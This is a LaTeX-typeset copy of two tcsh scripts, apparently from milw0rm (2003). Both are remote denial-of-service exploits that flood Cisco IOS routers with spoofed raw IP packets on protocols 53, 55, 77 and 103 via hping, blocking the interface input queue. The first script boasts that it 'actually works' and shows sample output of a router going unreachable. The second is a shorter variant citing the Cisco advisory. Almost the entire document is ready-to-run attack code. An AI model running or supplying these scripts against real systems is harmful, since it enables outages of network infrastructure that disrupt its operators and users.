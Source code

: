 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
\begin{alltt}\scriptsize
#!/bin/tcsh -f
#
# Remote DoS exploit against the recent Cisco IOS vuln. Cisco doc. 44020
# Vulnerable versions - all Cisco devices running IOS.
# Requirements : tcsh, and hping.
# Get hping @ www.hping.org
#
# And you know the best part? This script actually works! Unlike the few .c's
# floating around the net. Uses swipe for the protocol bit. Also, need to be uid=0,
# OR +s ciscodos.sh because of hping opening raw sockets.
#
# Example :
#
# root@evicted # ping 192.168.1.1
# PING 192.168.1.1 (192.168.1.1): 56 data bytes
# 64 bytes from 192.168.1.1: icmp_seq=0 ttl=150 time=1.287 ms
# 64 bytes from 192.168.1.1: icmp_seq=1 ttl=150 time=0.817 ms
# --- 192.168.1.1 ping statistics ---
# 2 packets transmitted, 2 packets received, 0%
# round-trip min/avg/max/std-dev = 0.817/1.052/1.287/0.235 ms
#
# root@evicted # ./ciscodos.sh 192.168.1.1 0
# HPING 192.168.1.1 (dc0 192.168.1.1): raw IP mode set, 20 headers + 26 data bytes
# --- 192.168.1.1 hping statistic ---
# 19 packets tramitted, 0 packets received, 100%
# round-trip min/avg/max = 0.0/0.0/0.0 ms
# HPING 192.168.1.1 (dc0 192.168.1.1): raw IP mode set, 20 headers + 26 data bytes
# --- 192.168.1.1 hping statistic ---
# 19 packets tramitted, 0 packets received, 100%
# round-trip min/avg/max = 0.0/0.0/0.0 ms
# -------------SNIP---------------
# root@evicted # ping 192.168.1.1
# PING 192.168.1.1 (192.168.1.1): 56 data bytes
# --- 192.168.1.1 ping statistics ---
# 2 packets transmitted, 0 packets received, 100%
# -------------SNIP---------------
#
# Coded by zerash@evicted.org
#

if ($1 == "" || $2 == "") then
echo "usage: $0 <router hostname|address> <ttl>"
exit
endif

foreach protocol (53 55 77 103)
/usr/local/sbin/hping $1 --rawip --rand-source --ttl $2 --ipproto $protocol --count 76 --interval u250 --data 26
end

# milw0rm.com [2003-07-22]
\end{alltt}

another version:
\begin{alltt}\scriptsize
\small
#!/bin/tcsh -f
# 2003-07-21 pdonahue
# cisco-44020.sh
# -- this shell script is just a wrapper for hping (http://www.hping.org)
#    with the parameters necessary to fill the input queue on
# exploitable IOS device
# -- refer to "Cisco Security Advisory: Cisco IOS Interface Blocked by
# IPv4 Packets"
# (http://www.cisco.com/warp/public/707/cisco-sa-20030717-blocked.shtml)
#for more information

if ($1 == "" || $2 == "") then
echo "usage: $0 <router hostname|address> <ttl>"
exit
endif

foreach protocol (53 55 77 103)
/usr/local/sbin/hping $1 --rawip --rand-source --ttl $2 --ipproto
$protocol --count 19 --interval u250 --data 26
end
\end{alltt}
\end{document}
